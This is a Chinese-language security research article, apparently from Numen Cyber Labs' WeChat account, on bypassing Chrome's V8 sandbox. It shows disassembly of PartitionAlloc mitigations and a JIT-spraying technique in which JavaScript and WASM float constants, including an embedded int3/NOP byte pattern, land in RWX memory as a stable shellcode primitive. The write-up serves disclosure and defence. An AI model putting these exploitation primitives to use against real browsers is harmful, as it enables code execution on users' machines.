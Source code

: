 #  Numen独家：利用wasm再次绕过最新Chrome v8sbx

原创 Numen cyber labs  [ Numen Cyber Labs ](javascript:void\(0\);)

**Numen Cyber Labs** ![]()

微信号 gh_06b147bc90bd

功能介绍 专注全球网络安全，传播网安知识，维护网安环境。致力于打造网安头部平台。

____

___发表于_

收录于合集

#chrome 1 个

#Numen 安全学院 38 个

**01  \- 前 言**

2023年11月2日，POC2023在韩国如期举行。NumenCybery两名研究员有幸受邀参加这次会议，一起分享了“Modern Chrome
Exploit Chain Development”的议题。

由于题目冠名“Modern”，如果没有比较新的东西和参会者分享，确实会略显尴尬。于是，在会议议题选中后，我迅速投入V8沙箱绕过研究。起初，我尝试利用fetch过来的binary
data绕过，最后，绕过了PartitionAlloc，实现了完整地址的任意读写，于是我以为绕过了。之后我把PPT做完，迅速和主办方发过去，就安心等会议了。

2023年10月30日早上1点，我突然觉得不能这么大意。半夜突发奇想，起来验证任意读写。大概在上次天府杯的WASM漏洞利用时，使用了PartitionAlloc的方法实现了任意读写，所以这次起初我并没有太多关心是否真的彻底成功了。因为我验证了下读写。然而，当我尝试读写WASM的时候，却崩溃了。我瞬间清醒了，这说明我并没有彻底完成V8沙箱绕过。

之后我调试了下，通过反汇编分析了原因：PartitionAlloc已经不再是原来的那个PartitionAlloc了。确切的说，又添加了4个缓解措施：

  1. 我们不能通过修改FreeList来实现控制MetadataPage了。因为Chrome检查了当前地址和下一个地址的差值，如果不符合要求，那就直接中断（int）

  2. 控制了MetadataPage后，在之前的x86版本，会对FreeList的地址做逻辑运算，如果FreeList不符合要求，直接中断（int3）

  

Partition Alloc free list Mitigation

  *   *   *   *   *   *   *   *   * 

    
    
    558110B6E62B - bswap rdx558110B6E62E - mov rsi,rdx558110B6E631 - xor rsi,r12558110B6E634 - cmp rsi,001FFFFF { 2097151 }558110B6E63B - ja chrome+2C26B80 { ->558110B6EB80 } INT3558110B6E641 - mov esi,edx558110B6E643 - and esi,001FC000 { 2080768 }558110B6E649 - je chrome+2C26B80 { ->558110B6EB80 } INT3  
    

3\. PartitionAlloc对目标地址的写入要求，做了地址范围限制：不能过小。4\. 也不能过大：

Partition Alloc MetadataPage Mitigation(version 118.0.5993.117)

  *   *   *   *   *   * 

    
    
    chrome+2D202FF - mov rax,[chrome+DC12B60] { (162400000000=min(Partition Addr)) }chrome+2D20306 - cmp rax,r14 (r14 is destination addr)chrome+2D20309 - ja chrome+2D20B8B INT3 (if dest < min(PartitionAlloc addr) then crash))chrome+2D2030F - add rax,[chrome+DC12B70] { (0) } (rax+lengthOfParthtion)chrome+2D20316 - cmp rax,r14chrome+2D20319 - jbe chrome+2D20B8B INT3 (if dest > max(PartitionAlloc addr) then crash))

细致研究后我初步得出结论：

我并没有完整绕过PartitonAlloc Alloc，只是获得了一定内存范围内的任意读写。

 **02 - 寻找新的攻击面**

在初步确定没有完全绕过后，我立刻通过邮件与主办方联系，申请稍后更新PPT。随后，无法入睡，我不停地尝试，直到凌晨3点，我认为可能发现了新的绕过方法。稍作休息，5点起床后，我继续晚上的绕过尝试。经过调试，最终确认彻底绕过。

如果我们想绕过V8的沙箱，我们最终需要实现完整地址劫持和稳定的shellcode地址跳转。也就是说，需要稳定的RWX/RX地址计算。上次，我们公开了WASM绕过最新版V8沙箱，使用了Function的原生指针劫持。然而，我们公开后，谷歌迅速将WASM中的函数参数分配放在了可读可写的内存中，导致的结果是我们不能把想要的shellcode放在WASM中。这里，我们首先需要一个指针劫持，这个不太难，我认为是谷歌疏忽了这个点，如下所示

![]()

只要是Chrome研究人员，在编写exploit时，都会从内存中定位这个指针，然后计算WASM的地址，接着像以前一样，将shellcode写入。但是，谷歌没有对这个Native指针进行封装。

仔细研究Manyuemo给出的JIT优化的shellcode后，我发现即便在最新版Chrome中，优化后的浮点数仍旧会被放在RWX的内存中。但是如何稳定计算这个地址是个问题。我没有去研究JIT后的地址计算源码，因为时间紧迫。

  *   *   *   *   *   *   *   * 

    
    
    function fun() {// 1.123=3ff1f7ced916872breturn [1.123, 1.134, 1.345];}for (let i = 0; i < 0x5000; i++) {fun(0);}fun();

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    55D9B81040B8 - mov eax,00000006 { 6 }55D9B81040BD - mov [rdi+03],eax55D9B81040C0 - mov r10,3FF1F7CED916872B { 1.12 }55D9B81040CA - vmovq xmm0,r1055D9B81040CF - vmovsd [rdi+07],xmm055D9B81040D4 - mov r10,3FF224DD2F1A9FBE { 1.13 }55D9B81040DE - vmovq xmm0,r1055D9B81040E3 - vmovsd [rdi+0F],xmm055D9B81040E8 - mov r10,3FF5851EB851EB85 { 0.00 }55D9B81040F2 - vmovq xmm0,r10  
    

这里我想提一句插曲是，其实过去很多时候在完成一个exploit后，有些点我也不清楚为什么会有效。因为老板急需成果，在现有条件和理论基础不够强的情况下，我能做的只能是不断尝试，寻找触发弹出计算器的方法。一般来说，一个exploit完成后，迅速向上级汇报，而其根本原因和底层原理则是日后才去研究的。我觉得过去几年的成果大多是不断尝试的结果。

 **03 - WASM的JIT**

结合Manyuemo的JIT函数，我认为如果V8沙箱的绕过存在，很可能在其他一些边缘的地方。比如WASM、WebAudio、WebSQL等等，我们可以看到过去编写exploit容易的地方，谷歌一直在努力加强安全性。因此，我尝试了下WASM函数的JIT。果然，我发现WASM函数优化后也会将参数放到RWX的内存中。

wat代码

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    (module  (func (export "main") (result f64)    ;; -6.654614018578406e+60=CC90909090909090    f64.const -6.654614018578406e+60    ;; 1.124=3ff1fbe76c8b4396    f64.const 1.124    ;; 1.125=3ff2000000000000    f64.const 1.125    ;; 1.126=3ff204189374bc6a    f64.const 1.126    drop    drop    drop))  
    

  *   *   *   *   *   *   *   *   * 

    
    
    var wasmCode = new Uint8Array([...wasm..binary…]);var wasmModule = new WebAssembly.Module(wasmCode);var wasmInstance = new WebAssembly.Instance(wasmModule);var f = wasmInstance.exports.main;for (let i = 0; i < 0x10000; i++) {f();}%DebugPrint(wasmInstance);  
    

javascript测试代码

生成的代码如下：

  *   *   *   *   *   *   *   *   *   * 

    
    
    355CEAE43715 - jbe 355CEAE43771355CEAE4371B - mov r10,CC90909090909090 { -1869574000 }355CEAE43725 - vmovq xmm0,r10355CEAE4372A - mov r10,3FF1FBE76C8B4396 { 1.12 }355CEAE43734 - vmovq xmm1,r10355CEAE43739 - mov r10,3FF2000000000000 { 1.13 }355CEAE43743 - vmovq xmm2,r10355CEAE43748 - mov r10,3FF204189374BC6A { 1.13 }355CEAE43752 - vmovq xmm3,r10  
    

 **04 - 演示**

 **05 - 总结**

在兼顾JIT性能的同时，类似于之前的WASM绕过，我们不得不考虑将浮点数等比较长的可预测常量属性设置为R/RW，或者同时修复它们的可预测地址方法。否则，攻击者很容易获得稳定的shellcode执行。

 **06 - 参考**

https://blog.noah.360.net/chromium_v8_remote_code_execution_vulnerability_analysis/  
https://medium.com/@numencyberlabs/use-native-pointer-of-function-to-bypass-
the-latest-chrome-v8-sandbox-exp-of-issue1378239-251d9c5b0d14  
https://medium.com/numen-cyber-labs/from-leaking-thehole-to-chrome-renderer-
rce-183dcb6f3078  
https://medium.com/numen-cyber-labs/analysis-and-summary-of-tcp-ip-protocol-
remote-code-execution-vulnerability-cve-2022-34718-8fcc28538acf  
https://bugs.chromium.org/p/chromium/issues/detail?id=1452137

  

  
  
  
 **关于 Numen  Cyber** ****

Numen Cyber 是链上威胁检测与防御的先驱，团队成员拥有在亚马逊、华为、百度、奇虎360等众多知名大厂与 OKlink，知道创宇，成都链安等知名
Web3 主体安全岗位从业经历。

拥有 Web2+Web3 多重安全技能储备的 Numen Cyber 旗下拥有 ImmunX 和 Leukocyte 两款安全产品，分别可在应用层和物理层为
Web3 项目提供保护。其中 ImmunX 包含安全策略开放市场和合约防火墙等独创功能，可以为 Web3 生态提供一站式全方位的保护；Leukocyte
则是保护服务器安全，实时检测黑客针对服务器的各种攻击并自动阻断、报警。

目前 Numen Cyber 的合作伙伴包括不限于 Binance，Cobo，Suiet
等，也包括中国移动、中国电信、中国联通，以及阿里云、腾讯、华为、亚马逊、微软等。

  

  
  
Numen 官网https://numencyber.com/
GitHubhttps://github.com/NumenCyberTwitterhttps://twitter.com/@numencyberMediumhttps://medium.com/@numencyberlabsLinkedInhttps://www.linkedin.com/company/numencyber/

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

